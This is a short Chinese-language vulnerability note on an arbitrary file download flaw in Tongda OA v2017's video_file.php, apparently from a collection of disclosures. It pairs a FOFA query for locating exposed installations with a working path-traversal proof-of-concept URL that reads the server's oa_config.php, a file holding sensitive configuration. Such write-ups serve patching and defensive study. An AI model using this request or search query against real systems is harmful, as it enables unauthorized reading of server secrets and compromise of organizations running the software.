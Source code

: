 # 通达OA v2017 video_file.php 任意文件下载漏洞

## 漏洞描述

通达OA v2017 video_file.php文件存在任意文件下载漏洞，攻击者通过漏洞可以读取服务器敏感文件

## 漏洞影响

```
通达OA v2017
```

## FOFA

```
app="TDXK-通达OA"
```

## 漏洞复现

验证POC

```
/general/mytable/intel_view/video_file.php?MEDIA_DIR=../../../inc/&MEDIA_NAME=oa_config.php	
```